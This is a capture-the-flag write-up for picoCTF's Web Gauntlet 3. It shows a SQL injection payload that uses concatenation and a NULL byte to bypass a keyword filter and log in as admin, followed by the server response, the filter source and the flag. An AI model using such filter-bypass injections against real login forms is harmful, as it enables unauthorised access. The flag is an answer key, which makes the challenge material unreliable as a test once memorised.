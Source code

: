 # Overview 
Category: [Web Exploitation]()

AUTHOR: MADSTACKS

# Description
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:57802/
Filter: http://mercury.picoctf.net:57802/filter.php

# Solution
## Solution 1 : similar [Web Gauntlet 2.md]()
## Solution 2 :
- I use query 
```
Username=ad'||'min'%00
```
- `%00`: This is a NULL character, commonly used to terminate a string and ignore any characters that follow.
- I modified in burp suite  : 
```
user=ad%27%7C%7C%27min%27%00&pass=123
```
- Result:
```html
SELECT username, password FROM users WHERE username='ad'||'min'
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Filtered SQLite Injection Challenge #3</h5>
							<h6 class="text-center" style="color:green">Congrats! You won! Check out filter.php</h6>							<form class="form-signin" action="index.php" method="post">
								<div class="form-label-group">
									<input type="text" id="user" name="user" class="form-control" placeholder="Username" required autofocus>
									<label for="user">Username</label>
								</div>

								<div class="form-label-group">
									<input type="password" id="pass" name="pass" class="form-control" placeholder="Password" required>
									<label for="pass">Password</label>
								</div>

								<button class="btn btn-lg btn-primary btn-block text-uppercase" type="submit">Sign in</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>
	</body>
</html>
```
- I check http://mercury.picoctf.net:57802/filter.php
```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_68847fdd50e1430d80990b518fac4edb}
?>
```
>Flag : **picoCTF{k3ep_1t_sh0rt_68847fdd50e1430d80990b518fac4edb}**